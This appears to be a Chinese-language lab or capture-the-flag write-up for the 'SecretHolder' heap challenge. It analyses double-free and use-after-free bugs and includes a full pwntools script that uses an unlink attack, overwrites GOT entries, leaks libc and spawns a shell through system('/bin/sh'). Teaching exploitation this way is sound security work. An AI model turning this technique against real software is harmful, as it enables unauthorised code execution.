 # SecretHolder

[執行程式]

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_topic.jpg)

[解題]

首先可以透過執行程式看到其提供以下幾種功能:
* keep secret:有三種不同大小的空間，並依對應的大小輸入秘密到該空間。
* wipe secret:可以自行選擇要free掉哪種大小的空間。
* renew secret:重新創建某個大小的空間。

接下來可以用 ghidra 進行分析，其中看到比較有東西的程式畫面如下:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_code.jpg)

在 keep secret 的函數中使用 calloc() 為三種 secret 分配不同大小的 chunk (small chunk、big chunk、huge chunk)，在分配前會檢查相對應的 secret 是否已經存在，因為每種 chunk 只能有一個。而在 wipe secret 函數在釋放 secret 時，首先將對應的 chunk 釋放掉，然後設置 flag 為 0。最後，renew secret 函數會先判斷對應的 flag 是否為 1，表示 secret 是否已經存在，如果不存在則讀入 secret，否則函數直接返回。

透過程式碼解析可以發現有以下漏洞:
* double-free:在 free chunk 的位置 calloc 另一個 chunk，表示可以重複 free 這個 chunk。
* use-after-free:因為 double-free 的的情況發生，所以 calloc 出來的那個 chunk 會被認為是 free 的，但它實際上卻可以使用。

因此，本題可以利用 unsorted bin 的 unlink 來攻擊。

我們先建一個 big chunk，然後在 free 這個 big chunk，接著再建一個 small chunk 和一個 medium chunk。三個 chunk 的狀態會呈現如下:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_pic1.jpg)

接下來把 small chunk 和 medium chunk 都 free 掉，因為在分配 huge chunk 的時候，glibc 會調用函數 malloc_consolidate() 來清除 fastbin 中的 chunk，所以 medium chunk 會被放到了 small chunk 的位置，當再次分配 small chunk 時會造成堆塊重疊。因此，我们要對 medium 做 double free，我們要在 Small 的位置偽造假 chunk，也要重新建好 medium 的結構，還有在 medium 後面再偽造幾個假 chunk，繞過檢查。則現在的狀態如下:

![image]()


#### exploit.py
```
from pwn import *
from LibcSearcher import *

sh = process('./SecretHolder')
elf = ELF('./SecretHolder')

# The address of huge_secret
huge_secret = 0x6020A8
bss_addr = 0x602090
free_got = elf.got['free']
puts_plt = elf.plt['puts']
read_got = elf.got['read']

def new(h_type, content):
   sh.sendlineafter('3. Renew secret', '1')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendlineafter('Tell me your secret:', content)

def delete(h_type):
   sh.sendlineafter('3. Renew secret', '2')
   sh.sendlineafter('3. Huge secret', str(h_type))

def edit(h_type, content):
   sh.sendlineafter('3. Renew secret', '3')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendafter('Tell me your secret:', content)

# apply one big chunk
new(3,'a'*0x100)
delete(3)

# apply one small chunk
new(1,'b'*0x10)

#apply one medium chunk
new(2,'c'*0x100)

# free chunk0 and chunk1
delete(1)
delete(2)

# create fake chunk
fake_chunk = p64(0) + p64(0x21)
#fd,bk
fake_chunk += p64(huge_secret-0x18) + p64(huge_secret-0x10)
payload = fake_chunk.ljust(0x20,'\x00')
#prev_size size
payload += p64(0x20) + p64(0x90) + 'c'*0x80   #chunk2
#prev_size size
payload += p64(0x90) + p64(0x81) + 'd'*0x70   #chunk3
#prev_size size
payload += p64(0) + p64(0x81)   #chunk4
# reapply big chunk
new(3, payload)

# unlink this 3 big bin
delete(2)
# Now, we can control this three heap pointer, modify them first
payload += p64(0) * 2 + p64(free_got) + p64(bss_addr) + p64(read_got) +p32(1)*3
edit(3,payload)

# modify free's got to put's plt
edit(2,p64(puts_plt))
#leakage the address of read
delete(1)
sh.recvuntil('\n')
read_addr = u64(sh.recvuntil('\n',drop = True).ljust(8,'\x00'))
libc = LibcSearcher('read',read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
print ('libc_base=',hex(read_addr))
print ('system_addr=',hex(system_addr))
#modify table got of free and point to system
edit(2,p64(system_addr))
#modify heap1 pointer and point to str(/bin/sh)
edit(3,p64(0) * 2 + p64(binsh_addr))
#system("/bin/sh")
delete(2)

sh.interactive()
```
